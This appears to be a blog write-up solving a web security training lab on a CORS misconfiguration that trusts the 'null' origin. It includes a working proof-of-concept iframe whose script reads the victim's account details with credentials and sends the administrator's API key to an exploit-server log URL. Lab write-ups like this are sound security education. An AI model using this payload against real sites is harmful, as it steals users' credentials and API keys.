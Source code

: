 ```yaml
---
layout: post
title:  "CORS vulnerability with trusted null origin"
date:   2024-10-16 11:20:54 +0530
categories: [BSCP, CORS]
---
```


## Introduction 

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

## Solution 

Same as a previous lab but the misconfiguration here is it trusts the `null` origin and you can confirm it by sending the following header `Origin: null` and In the response, `ACAO` responds with `null` as well through the `/accountDetails` endpoint 

![]({{ site.baseurl }}/assets/images/cors-11.png)

<p>
  &gt; If ACAO sets to <mark>null</mark>, then it allows the server able to call the 
  <code>file://</code> protocol, set up a sandboxed environment, and create an 
  <code>iframe</code> as well.
</p>

Then, with the following POC we are creating sandboxed iframe which will allow the iframe to run the scripts, allow the form submission and takes care of window navigation as well **(Allows the iframe to navigate the top-level browsing context)** 

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a9200df043194ec83c1559600ec001f.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a3d00df0402945a83bd545801310064.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

Once after delivering the above POC to victim and checking the access log shows that we have got the administrator API key

![]({{ site.baseurl }}/assets/images/cors-12.png)

Take the API key and submit it as solution and solves the lab 

![]({{ site.baseurl }}/assets/images/cors-13.png)
